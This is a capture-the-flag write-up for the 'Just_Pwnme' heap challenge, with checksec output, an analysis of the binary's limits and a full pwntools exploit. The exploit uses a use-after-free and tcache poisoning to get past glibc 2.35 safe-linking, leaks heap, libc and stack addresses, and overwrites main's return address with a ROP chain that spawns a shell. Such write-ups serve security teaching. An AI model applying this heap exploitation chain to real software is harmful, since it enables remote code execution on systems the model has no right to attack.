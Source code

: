 # Just_Pwnme

# Description
![](./description.png)

# Checksec

```
RELRO           STACK CANARY      NX            PIE
Full RELRO      Canary found      NX enabled    PIE enabled
```
Got table is not writable.
# Analysis

This is a typical heap challenge where you can allocate, edit, print and free chunk of the heap,<br>
```
$ ./chall
0) Allocate a chunk
1) Free a chunk
2) Print a chunk
3) Edit a chunk
4) Exit
[*] choice :
```
Except it had couple restrictions:<br>
 * The maximum size of allocation is limited to 0x100 == 256 bytes.<br>
 meaning we can't directly allocate a large chunk then free it to leak the main_arena pointer.<br>
 * The allocation pointer array has only 2 slots, so we can only keep track of 2 chunks at the time.<br>
 meaning we can't fill up t-cache to force using fast bin.<br>
 * The libc used is 2.35 which doesn't use free/malloc hooks, and uses safe-linking.<br>
 meaning we can't directly overwrite heap pointers, and there are no hook to overwrite to change the execution flow.<br>

On the good side, we had a UAF so we can edit/print a free chunk and we had unlimited number of allocations,<br>
and that's more than enough to pwn a binary :)<br>

# TL;DR
 * Defeat safe-linking by leaking the Heap address from the first t-cache entry.<br>
 * Use t-cache poisoning to create 2 overlapping chuncks in the heap.<br>
 * Overwrite the overlapped chunk's size to a large size, then free it to leak libc address.<br>
 * Use t-cache poisoning to allocate a chunk overlapping with environ pointer and leak stack address.<br>
 * Use t-cache poisoning to allocate a chunk overlapping with main return address on the stack.<br>
 * Overwrite main return address with a rop gadget to get a $hell.<br>

# Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("just-pwnme.bsides.shellmates.club", 443, ssl=True)
    return r


def allocate_chunk(r, index, size, data):
    r.recvuntil(b"choice : \n")
    r.sendline(b'0')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))
    r.recvuntil(b"Size : ")
    r.sendline(bytes(str(size), 'utf-8'))
    r.recvuntil(b"Data : ")
    r.sendline(data)


def free_chunk(r, index):
    r.recvuntil(b"choice : \n")
    r.sendline(b'1')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))


def print_chunk(r, index):
    r.recvuntil(b"choice : \n")
    r.sendline(b'2')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))


def edit_chunk(r, index, data):
    r.recvuntil(b"choice : \n")
    r.sendline(b'3')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))
    r.recvuntil(b"Data : ")
    r.send(data)


def main():
    r = conn()

    # Allocate two chunks
    allocate_chunk(r, 0, 16, b'aaa')
    allocate_chunk(r, 1, 16, b'aaa')

    # Free both chuncks into t-cache
    free_chunk(r, 0)
    free_chunk(r, 1)

    # Leak heap base from first t-cache chunk
    print_chunk(r, 0)
    heap = int.from_bytes(r.recv(numb=6).strip(), "little") << 12
    log.info(f"Leaking heap base address : {hex(heap)}")

    # Overwrite the forward pointer of the second t-cache chunk
    # (encoding the pointer to bypass safe-linking)
    heap_overlap = ((heap + 0x2c0) >> 12) ^ (heap+0x2b0)
    edit_chunk(r, 1, flat(p64(heap_overlap), b'\n'))

    # Allocate the first firs entry in t-cache
    allocate_chunk(r, 1, 16, b'aaa')

    # Allocate a chunk overlapping with the previously allocated chunk
    allocate_chunk(r, 1, 16, b'aaa')

    # Edit the size of the overlaping chunk to a large bin size
    edit_chunk(r, 0, flat(p64(0), p64(0x421)))

    # Create additional chunck to pass "prev chunck in-use"
    allocate_chunk(r, 0, 256, b'aaa')
    allocate_chunk(r, 0, 256, b'aaa')
    allocate_chunk(r, 0, 256, b'aaa')
    allocate_chunk(r, 0, 176, b'aaa')
    allocate_chunk(r, 0, 16, b'aaa')

    # Free the fake large chunk to leak main_arena address and calculate libc address
    free_chunk(r, 1)
    print_chunk(r, 1)
    libc.address = int.from_bytes(r.recv(numb=6).strip(), "little") - 0x219ce0
    log.info(f"Leaking libc base address : {hex(libc.address)}")

    # Allocate two chunks
    allocate_chunk(r, 0, 16, b'aaa')
    allocate_chunk(r, 1, 16, b'aaa')

    # Free both chuncks
    free_chunk(r, 0)
    free_chunk(r, 1)

    # Overwrite the forward pointer of the second t-cache chunk
    # (encoding the pointer to bypass safe-linking)
    environ = ((heap + 0x2d0) >> 12) ^ (libc.address + 0x221200-16)
    edit_chunk(r, 1, flat(p64(environ), b'\n'))

    # Allocate the first entry in t-cache
    allocate_chunk(r, 1, 16, b'aaa')

    # Allocate a chunk overlapping with the environ variable of the dynamic linker
    allocate_chunk(r, 1, 16, b'a'*15)

    # Leak the envp stack pointer and calculate the return address pointer of main
    print_chunk(r, 1)
    r.recvline()
    main_ret_addr = int.from_bytes(r.recv(numb=6).strip(), "little") - 328 + 32
    log.info(f"Leaking main return address : {hex(main_ret_addr)}")

    # Allocate two chunks
    allocate_chunk(r, 0, 64, b'aaa')
    allocate_chunk(r, 1, 64, b'aaa')

    # Free both chunks
    free_chunk(r, 0)
    free_chunk(r, 1)

    # Overwrite the forward pointer of the second t-cache chunk
    # (encoding the pointer to bypass safe-linking)
    main_ret_addr = ((heap + 0x340) >> 12) ^ (main_ret_addr)
    edit_chunk(r, 1, flat(p64(main_ret_addr), b'\n'))

    # Prepare a rop gadget to execute "system("/bin/sh\0");"
    rop = ROP(libc)
    binsh = next(libc.search(b"/bin/sh\x00"))
    ret = rop.find_gadget(['ret']).address
    system = libc.symbols['system']
    poprdi = rop.find_gadget(["pop rdi", "ret"]).address
    payload = flat(main_ret_addr, ret, poprdi, binsh, system)

    # Allocate the first entry in t-cache
    allocate_chunk(r, 1, 64, b'aaa')

    # Alocate a chunk overlapping with the main return address in the stack
    allocate_chunk(r, 1, 64, payload)

    # Exit to make main return and get a shell
    r.recvuntil(b"choice : \n")
    r.sendline(b'4')
    log.info("Enjoy your $hell ;)")
    r.interactive()


if __name__ == "__main__":
    main()
```
# Flag

```
shellmates{S3E_Y0U_DONt_n33d_H00Ks_TO_pWN_the_HeAP}
```
